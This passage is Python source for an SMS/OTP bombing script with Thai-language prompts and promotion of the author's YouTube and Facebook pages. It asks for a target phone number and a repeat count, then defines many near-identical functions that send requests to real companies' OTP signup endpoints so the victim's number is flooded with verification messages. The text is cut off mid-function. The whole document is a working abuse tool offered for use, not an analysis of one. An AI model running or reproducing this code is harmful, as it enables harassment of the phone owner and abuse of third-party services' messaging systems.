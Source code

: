 import requests
import os
import time
import threading
from threading import Thread
os.system("clear")
time.sleep (1)
print ("\t\x1b[91mกำลังโหลดครับรอแปป.....")
time.sleep (5)
os.system ("clear")
time.sleep (1)
print ("\x1b[91mไปกดติดตาม!!!")
time.sleep (1)
print ("\x1b[96m[\x1b[91m1\x1b[96m] \x1b[96mกดติดตามก่อนใช่ \x1b[91m:V")
time.sleep (1)
os.system("xdg-open https://youtube.com/channel/UCwmhMExJ5V82NRYMUBR8Q6A")
time.sleep (8)
print ("\x1b[96m[\x1b[91m2\x1b[96m] \x1b[96mกดติดตามผมด้วยครับ\x1b[91m:)")
time.sleep (1)
print ("\x1b[91m")
os.system ("clear")
time.sleep (1)
print("\033[92mํ_______________________100api____________")
print("")
print("\033[92mhttps://www.facebook.com/autozammza")
print("")
print("")
print("\033[92mYouTube:Z-NightShot")
print("list")
print("")
phone = input("\033[95m[+] Number : \033[0m")
num = int(input("\033[95m[+] How : \033[0m"))
os.system("clear")
print("\033[95m______________อยู่สื่อๆ______________")

def test(): 
	requests.post("https://api.true-shopping.com/customer/api/request-activate/mobile_no", data={"username": phone})
	print("\033[92m ยิงอยู่ครับ")
	
def test2():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test3():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test4():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test5():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test6():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test7():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test8():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")

def test9():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test10():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")

def test11():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")

def test12():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test119():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test14():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")

def test15():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")

def test16():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")

def test17():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")

def test19():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test22():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test23():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")

def test21():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")

def test18():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test24():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")

def test25():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("\033[92m ยิงอยู่ครับ")
	
def test27():
	requ
